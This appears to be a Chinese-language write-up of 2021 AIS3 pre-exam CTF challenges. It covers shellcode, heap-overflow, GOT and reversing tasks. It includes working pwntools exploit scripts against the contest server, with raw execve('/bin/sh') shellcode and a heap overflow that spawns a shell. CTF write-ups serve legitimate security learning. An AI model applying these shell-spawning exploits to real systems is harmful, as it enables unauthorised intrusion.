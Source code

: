 # 2021 AIS3 pre-exam reverse 和 pwn 題

## pwn : noper

shellcode 題，先輸入一串最長 0x40 的  shellcode，接著隨機 nop 掉 shellcode 的某些 bytes 並執行。

因為有隨機 nop，所以直接塞 execve('/bin/sh' , 0 , 0) 一類的 shellcode 有很高的機率會直接 crash 掉，好在執行 shellcode 時，rax 是 read 的 syscall number，rdi 是 0  ( stdin )，rsi 是 shellcode 第一個 bytes 的位置，可以塞 syscall 複寫 shellcode。需要注意的是因為 rdx 太大 , 直接 syscall 不能成功，所以還要在 syscall 前塞一個盡量短一點的指令減小 rdx 的值 ( ex. shr , xor ... )

```python=
from pwn import *

#p = process('./noper')
p = remote('quiz.ais3.org' , 5002)
pause()
p.recvuntil('code:')
sc = '\x48\xC1\xEA\x29' # shr rdx , 0x29 
sc += '\x0f\x05' # syscall
p.sendline(sc)
sc = '\x90'*6 + '\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05' # execve('/bin/sh')
p.sendline(sc)    

p.interactive()
```

## pwn : Write Me


程式先把 system 的 got 寫 0，再給一次任意寫的機會，寫完後呼叫 system('/bin/sh')。

方法是直接把 got 寫回 dlruntime_resolve 前的值，讓下次程式執行 system 時再做一次 lazy binding 填回正確的位置。


## pwn : AIS3 Shell

出題者在原有的 ptmalloc 上自己寫了一套記憶體分配機制，這套分配機制存在邏輯錯誤，導致使用者可以分配比自己申請的大小還大的記憶體，造成 heap overflow 的漏洞。

初始化 MEM pool 函數。

![](https://i.imgur.com/PkAzkxo.png)

分配記憶體函數，MEM[i<<6+4] 邏輯錯誤，能夠申請到比自己申請大小更大的記憶體。

![](https://i.imgur.com/Hpxabg4.png)

```python=

from pwn import *
p = remote('quiz.ais3.org' , 10103)
#p = process('./ais3shell')
pause()

def define_cmd(sz1 , cmdname , sz2 , cmd):
    p.recvuntil('$')
    p.sendline('define')
    p.recvuntil('name:')
    p.sendline(str(sz1))
    p.recvuntil('name:')
    p.sendline(cmdname)
    p.recvuntil('command:')
    p.sendline(str(sz2))
    p.recvuntil('Command:')
    p.sendline(cmd)

def run_cmd(cmdname):
    p.recvuntil('$')
    p.sendline('run ' + cmdname)

def list_cmd():
    p.recvuntil('$')
    p.sendline('list')

define_cmd(256 , 'aaa' , 768 , 'ls') 
pl = 'a'*272+'/bin/sh' # overflow 到下一個 chunk 的 cmd
define_cmd(512 , pl , 10 , 'sl')
#list_cmd()
run_cmd('aaa')

p.interactive()
```

## misc : Blind

 
程式關閉 stdin 後讓使用者執行一個 syscall，最後再執行 system("/bin/sh")。

沒辦法寫入字串 , 無法 reopen tty , 後來注意到 stderr 沒關，所以 syscall 執行 dup stderr。

## reverse : Piano

給一個執行檔 piano.exe 和用 c# 寫的動態連結檔 piano.dll，遊戲的函數全部都定義在 dll 內。

![](https://i.imgur.com/6eJsuHa.png)

動態追蹤後發現當按下鋼琴鍵時，會進入 onClickHandler 處理函數，在函數內以 FILO 的順序將鋼琴鍵對應的數值存入 notes[14]。

![](https://i.imgur.com/8n00C96.png)

每次進入 handler 時都會檢查一次 notes 的 14 個數值是否有符合特定規則，有的話就呼叫 nya 彈 flag。

由規則可知，只要解 14 個二元一次方程式就可以知道要依序彈奏哪 14 個音符。

![](https://i.imgur.com/KmwmVmX.png)

## reverse : COLORS

在 encode.js 內發現了一個 eventlistner , 追蹤下去發現只要執行 "上上下下左右左右ba" 就可以解鎖 input 的 locked ( return document )

![](https://i.imgur.com/nn4bn3L.png)

解鎖 input 的 locked 以後跳出一隻很醜的動物 , 顯示字串 `"Here is your "encoded" flag , input to encode something else!"`

return 回來的 document 上的字符是由 _0xce93 encode 的 , 所以只要 trace _0xce93 找出規則後 decode 回來即可
